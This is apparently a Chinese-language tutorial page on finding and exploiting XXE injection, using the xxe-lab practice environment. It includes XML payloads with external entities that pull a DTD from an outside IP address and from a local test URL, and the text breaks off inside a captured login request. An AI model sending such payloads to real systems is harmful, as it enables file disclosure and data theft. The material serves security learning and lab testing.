     ```c
    # http://47.106.143.26/xml.dtd
    <!-- http://47.106.143.26/xml.dtd -->
    <!ENTITY d1 SYSTEM "data://text/plain;base64,Y2w0eV9uZWVkX2FfZ3JpbGZyaWVuZA==">
    ```
    

## XXE 漏洞

### XXE 检测

- 迪总思路
    
    XXE黑盒发现:
    
    1、获取得到`Content-Type`或数据类型为`xml`时，尝试进行`xml`语言`payload`进行测试
    
    2、不管获取的`Content-Type`类型或数据传输类型，均可尝试修改后提交测试`xxe`
    
    3、XXE不仅在数据传输上可能存在漏洞，同样在文件上传引用插件解析或预览也会造成文件中的`XXE Payload`被执行
    
    XXE白盒发现:可通过应用功能追踪代码定位审计，可通过脚本特定函数搜索定位审计，可通过伪协议玩法绕过相关修复等
    
- 主要的方法是检测所有接收`XML`作为输入的内容端点，抓包观察是否是我们想要的内容
    
    首先检测XML是否会被成功解析，看数据包是否会带有`Hello XXE`字样
    
    ```python
    <?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE ANY [ <!ENTITY words "Hello XXE !">]><root>&words;</root>
    ```
    
    然后检测改端点是否支持`DTD`引用外部实体，带外测试，可以使用dnslog来测试
    
    ```python
    <?xml version=”1.0” encoding=”UTF-8”?><!DOCTYPE ANY [<!ENTITY % name SYSTEM "http://localhost/tp5/test.xml">%name;]>
    ```
    

## XML外部实体注入

一般`xxe`利用分为两大场景：有回显和无回显，无回显也是`Blind XXE`

下面均使用`xxe-lab` 来测试（测试`PHP` 版本的，其他语言后边再补）

### 探测是否存在 XXE

- 有回显
    1. 登录框账号密码随便输入（这里账号密码都是`admin`），然后抓包，可以发现请求传输的是`XML` ，我们测试一下有没有回显
        
        ```c
        POST /php_xxe/doLogin.php HTTP/1.1
        Host: 192.168.111.154
        Accept: application/xml, text/xml, */*; q=0.01
        Content-Type: application/xml;charset=utf-8
        X-Requested-With: XMLHttpRequest
        